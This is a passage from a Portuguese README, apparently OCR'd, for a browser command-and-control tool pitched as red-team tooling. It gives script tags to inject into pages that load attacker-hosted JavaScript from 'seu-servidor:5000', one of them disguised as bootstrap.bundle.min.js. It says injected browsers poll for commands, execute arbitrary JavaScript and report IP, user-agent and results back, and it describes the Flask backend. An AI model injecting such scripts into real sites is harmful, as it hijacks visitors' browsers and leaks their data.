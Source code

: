 Exemplos:
```html
<!-- Adicionar antes do fechamento do </body> -->
<script src="http://seu-servidor:5000/1/poc.js"></script>

<script src="http://seu-servidor:5000/12345/teste.js"></script>

<script src="http://seu-servidor:5000/99999/bootstrap.bundle.min.js"></script>

<script src="http://seu-servidor:5000/99999/bootstrap.bundle.min.map"></script>

<script src="http://seu-servidor:5000/2025/payload-campanha-redteam.js"></script>
```



O sistema irá:
1. Gerar automaticamente um ID único para o cliente (localStorage)
2. Iniciar polling HTTP automático para verificar novos comandos
3. Registrar cliente no servidor com informações de user-agent e IP
4. Executar comandos recebidos usando estratégias inteligentes de execução
5. Enviar resultados de volta ao servidor (se captura estiver habilitada)
6. Manter conexão ativa através de heartbeat polling

## Segurança

**Atenção**: Este sistema foi projetado para ambientes controlados e possui aspectos que devem ser considerados:

- O sistema permite a execução de código JavaScript arbitrário
- Use sempre autenticação para o painel administrativo
- Não utilize em ambientes públicos sem medidas de segurança adicionais

## Arquitetura Técnica (v2.0)

### Backend - Arquitetura Simplificada

**Servidor Principal (`app.py`)**:
- Arquivo único com todas as rotas e lógica de negócio
- Deploy simples e direto
- Fácil manutenção e compreensão

**Características**:
- **Comunicação exclusiva via HTTP polling** - sem dependências WebSocket
- **Persistência SQLite** com padrão Repository para clientes e comandos
- **API REST em Flask** com endpoints para polling, resultados e administração
- **Sistema de autenticação baseado em sessões** para o painel administrativo
- **Cache híbrido** - dados em memória para performance + persistência para durabilidade
- **Limpeza automática** de clientes inativos (configurável, padrão 30 minutos)
- **Sistema de logging estruturado** com diferentes níveis (app, command, auth)

### Cliente (Polling Inteligente)
